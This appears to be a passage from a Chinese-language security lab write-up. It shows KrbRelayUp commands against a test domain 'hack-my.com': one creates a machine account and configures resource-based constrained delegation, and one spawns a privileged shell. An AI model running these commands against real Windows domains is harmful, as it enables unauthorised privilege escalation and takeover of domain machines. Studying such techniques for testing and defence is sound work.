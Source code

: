 [https://github.com/ShorSec/KrbRelayUp](https://github.com/ShorSec/KrbRelayUp)

配置 RBCD

```shell
KrbRelayUp.exe relay -Domain hack-my.com -CreateNewComputerAccount -ComputerName test$ -ComputerPassword 123456
```

spawn shell, 当然这里也可以用 impacket

```shell
KrbRelayUp.exe spawn -m rbcd -d hack-my.com -dc DC.hack-my.com -cn test$ -cp 123456
```

![image-20230801203310510](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308012033661.png)

![image-20230801203420037](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308012034182.png)